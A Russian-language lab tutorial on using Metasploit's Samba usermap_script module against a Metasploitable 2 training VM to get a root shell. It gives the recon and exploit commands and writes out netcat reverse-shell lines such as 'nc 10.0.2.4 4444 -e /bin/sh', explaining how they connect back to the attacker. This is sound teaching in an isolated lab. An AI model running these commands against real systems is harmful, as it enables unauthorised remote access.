



Предполагается что все действия выполняются на виртуальных машинах VirtualBox.
Начинаем атаку на удаленную машину Metasploitable 2.
Необходимо определить IP с машиной Metasploitable 2. Для этого сначала определим наш IP и маску подсети, для этого дадим команду в терминале Kali:
ifconfig
В результатах вывода команды выше, можно увидеть такую строку:
inet 10.0.2.4 netmask 255.255.255.0
То есть наш IP 10.0.2.4 а диапазон IP адресов нашей сети 10.0.2.0/24 (это обяснялось ранее в предыдущих статьях).
Для обнаружения других компьютеров в сети и в том числе нашей удаленной машины Metasploitable 2, дадим команду в терминале Kali:
sudo netdiscover -r 10.0.2.0/24
В выводе команды:
10.0.2.2 08:00:27:3a:17:ed 1 60 PCS Systemtechnik GmbH 10.0.2.3 08:00:27:f1:18:5a 1 60 PCS Systemtechnik GmbH
10.0.2.2 - это виртуальный роутер, который управляет нашей сетью.
10.0.2.3 - это наша машина (по логике) с Metasploitable 2.
Проверим связь между нашей Kali и удаленной ВМ Metasploitable 2, дадим команду:
ping 10.0.2.3
Если сеть в VirtualBox настроена правильно, видим пинг идет, связь есть.
На Kali выполняем команду в терминале:
nmap -sC -sV 10.0.2.3
В выводе nmap находим такую строку (сриншот ниже):
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Из вывода видим что SAMBA работает на портах 139 и 445.

Версия нашей SAMBA на Metasploitable 2 будет 3.0.20, поэтому запускаем msfconsole:
msfconsole
И даем команду:
msf > search samba 3.0.20
Как видим нашло модуль:
0 exploit/multi/samba/usermap_script

Далее читаем документацию об этом эксплоите:
msf > info 0
И видим подходит для нашей версии SAMBA, потому что наша версия SAMBA 3.0.20, а документация сообщает что подохдящие версии от 3.0.20 до 3.0.25 (скриншот ниже).

Далее даем команды:
msf > use 0
msf > set RHOSTS 10.0.2.3
msf > exploit
И видим вывод на экран, в данном случае это означает, что мы успешно получили удаленную командную оболочку (shell) на целевой машине.

Как видим мы дали команду whoami ответ был root, мы дали команду ifconfig и получили адрес удаленной машины 10.0.2.3 - что совпадает с адресом удаленной машины полученным ранее.
Для выхода из сессии нажимаем Ctr + C и затем на вопрос y. Возвращаемся в модуль метасплоит. Для выхода из метасплоит модуля вводим команду exit, для выхода из самого метасплоит так же вводим exit.
Мы ранее дали команду метасплоит uso 0, но мы не указали payload вручную, поэтому Metasploit автоматически выбрал cmd/unix/reverse_netcat.
Это означает:
на удаленной машине будет выполнена команда netcat;
она подключится обратно к вашему компьютеру;
через это соединение будет передаваться командная оболочка (/bin/sh).
Далее командой метасплоит exploit мы запустили эксплуатацию уязвимости Samba.
[*] Started reverse TCP handler on 10.0.2.4:4444
Metasploit начал слушать порт 4444 на вашей машине (10.0.2.4), ожидая входящего подключения.
[*] Command shell session 1 opened
(10.0.2.4:4444 -> 10.0.2.3:32782)
Это самая важная строка.
Она означает:
удаленная машина 10.0.2.3 успешно подключилась обратно;
было создано соединение;
открыта командная оболочка (Command Shell);
ей присвоен номер Session 1.
То есть теперь вы можете выполнять команды на удаленной машине.
Почему это называется Shell?
Shell — это программа, которая принимает команды пользователя и передает их операционной системе.
На Linux это обычно:
/bin/sh
/bin/bash
/bin/zsh
В нашем случае Metasploit получил именно command shell, а не Meterpreter.
Чем Command Shell отличается от Meterpreter?
Command Shell
обычная оболочка Linux;
выполняет стандартные команды ОС;
возможностей меньше.
Meterpreter
специальная интерактивная оболочка Metasploit;
умеет загружать файлы, делать скриншоты, управлять процессами, повышать привилегии, организовывать туннели и многое другое;
не требует запуска большинства системных утилит, так как многие функции встроены.
Таким образом, строка на скриншоте
Command shell session 1 opened
означает, что эксплуатация уязвимости прошла успешно и вы получили удаленный доступ к командной оболочке целевой машины.
Команда netcat (nc) умеет:
открывать TCP- и UDP-соединения;
слушать порты;
передавать данные;
получать данные;
перенаправлять ввод и вывод программ через сеть.
Как это работает
Представим две машины:
Ваш компьютер Удаленная машина 10.0.2.4 10.0.2.3
На вашем компьютере Metasploit делает следующее:
слушает порт 4444
То есть ожидает, пока кто-нибудь подключится.
После успешной эксплуатации на удаленной машине выполняется примерно такая команда:
nc 10.0.2.4 4444 -e /bin/sh
или (в зависимости от версии netcat)
/bin/sh | nc 10.0.2.4 4444
или одна из аналогичных команд.
Что означает эта команда
Разберем первую:
nc 10.0.2.4 4444 -e /bin/sh
nc — запустить Netcat.
10.0.2.4 — IP вашего компьютера.
4444 — порт, на который нужно подключиться.
-e /bin/sh — после подключения запустить оболочку /bin/sh и привязать ее к сетевому соединению.
Что дает /bin/sh
Обычно оболочка работает с клавиатурой и экраном.
Клавиатура ---> /bin/sh ---> Экран
Но Netcat делает иначе.
Он подключает оболочку к сети:
То есть:
вы печатаете команду;
она по сети попадает в /bin/sh;
оболочка выполняет ее;
результат отправляется обратно по сети;
Metasploit показывает его вам.
Для оболочки нет разницы, получает ли она команды с клавиатуры или через сеть. Схема такая:
Вы │ │ whoami ▼ Metasploit │ │ TCP ▼ Netcat │ ▼ /bin/sh │ │ выполняет whoami ▼ root │ ▼ Netcat │ │ TCP ▼ Metasploit │ ▼ Вы видите: root
Почему используется именно reverse shell
Если бы вы сами пытались подключиться к удаленной машине:
то подключение часто блокируется брандмауэром (firewall).
Поэтому гораздо надежнее заставить саму удаленную машину подключиться к вам:
Такое соединение называется reverse shell (обратная оболочка).
В вашем случае
Когда Metasploit написал:
Started reverse TCP handler on 10.0.2.4:4444
он начал ждать подключения.
Затем эксплойт заставил машину 10.0.2.3 выполнить команду Netcat, которая подключилась к вашему компьютеру и перенаправила ввод и вывод оболочки /bin/sh через это соединение.
Именно поэтому мы увидели:
Command shell session 1 opened
Это означает, что теперь команды, которые вы вводите в Metasploit, фактически выполняются оболочкой /bin/sh на удаленной машине.